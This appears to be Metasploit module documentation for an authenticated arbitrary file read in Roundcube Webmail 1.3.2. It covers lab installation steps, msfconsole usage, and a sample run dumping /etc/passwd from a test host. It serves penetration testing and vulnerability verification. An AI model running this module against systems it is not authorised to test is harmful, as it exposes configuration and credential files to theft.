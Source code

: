 ## Vulnerable Application

Roundcube Webmail allows unauthorized access to arbitrary files on the host's filesystem, including configuration files.
This affects all versions from 1.1.0 through version 1.3.2. The attacker must be able to authenticate at the target system
with a valid username/password as the attack requires an active session.

Tested against version 1.3.2

### Install Roundcube 1.3.2 on Ubuntu 22.04

Instructions are loosely based on https://www.digitalocean.com/community/tutorials/how-to-install-your-own-webmail-client-with-roundcube-on-ubuntu-16-04

The main point of pain is installing PHP 7.0 on Ubuntu 22.04

#### Install LAMP

```
sudo apt-get install -y tasksel
sudo tasksel install lamp-server
```

#### Install PHP 7.0

```
sudo apt install software-properties-common ca-certificates lsb-release apt-transport-https dbconfig-sqlite3
LC_ALL=C.UTF-8 sudo add-apt-repository ppa:ondrej/php
sudo apt update
sudo apt-get install php7.0 php7.0-xml php7.0-mbstring php7.0-intl php7.0-zip php7.0-sqlite3
sudo a2dismod php8.1
sudo a2enmod php7.0
```

#### Configure PHP

```
sudo nano /etc/php/7.0/apache2/php.ini
```

Uncomment the following lines:

```
extension=php_mbstring.dll
extension=php_xmlrpc.dll
extension=php_pdo_sqlite.dll
```

Add the following line to the end of the extension list:

```
extension=dom.so
```

Uncomment and change the following values:

```
date.timezone = "America/New_York"
upload_max_filesize = 12M
post_max_size = 18M
mbstring.func_overload = 0
```

#### Install dovecot

```
sudo apt install dovecot-imapd
```

#### Install Roundcube

```
wget https://github.com/roundcube/roundcubemail/releases/download/1.3.2/roundcubemail-1.3.2-complete.tar.gz -O /tmp/roundcubemail-1.3.2-complete.tar.gz
sudo tar -zxf /tmp/roundcubemail-1.3.2-complete.tar.gz -C /var/www/html/
sudo chown -R root:root /var/www/html/roundcubemail-1.3.2/
```
#### Configure Apache

```
sudo cp /etc/apache2/sites-available/000-default.conf /etc/apache2/sites-available/roundcubemail-1.3.2-complete.config
sudo vi /etc/apache2/sites-available/roundcubemail-1.3.2-complete.config
```

Update `ServerName <rhost IP>` `DocumentRoot /var/www/html/roundcubemail-1.3.2/`

Save and close the file, now reload Apache

```
sudo systemctl restart apache2
```

Browse to `/installer`.  Almost all settings will be kept as default,
however, for the database setup we'll use a sqlite db for ease.
Select `SQLite`, and change the Database name to `/tmp/roundcube.db`.
all other fields within `db_dsnw` should be blank.

On the next screen, make sure to click the button under Check DB config
to create the initial database.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/roundcube_auth_file_read`
1. Do: `set rhost [ip]`
1. Do: `set USERNAME [username]`
1. Do: `set PASSWORD [password]`
1. Do: `run`
1. You should get contents of specified file.

## Options

## Scenarios

### Roundcube 1.3.2 with php 7.0 on Ubuntu 22.04

```
resource (msf)> set rhost 10.10.10.10
rhost => 10.10.10.10
resource (msf)> set TARGETURI /roundcubemail-1.3.2/
TARGETURI => /roundcubemail-1.3.2/
resource (msf)> set rport 80
rport => 80
resource (msf)> set verbose true
verbose => true
resource (msf)> set USERNAME roundcube_user
USERNAME => roundcube_user
resource (msf)> set PASSWORD roundcube_password
PASSWORD => roundcube_password
msf6 auxiliary(gather/roundcube_auth_file_read) > run
[*] Running module against 10.10.10.10

[+] Token Value: JDGak0VjivacBBT9FVJbN4eqaelDHLX0
[*] Attempting login
[*] Attempting exploit
[+] root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
arangodb:x:998:999:ArangoDB Application User:/usr/share/arangodb3:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
postgres:x:115:121:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
dovecot:x:116:122:Dovecot mail server,,,:/usr/lib/dovecot:/usr/sbin/nologin
dovenull:x:117:123:Dovecot login user,,,:/nonexistent:/usr/sbin/nologin
roundcube_user:x:1001:1001:,,,:/home/roundcube_user:/bin/bash
```
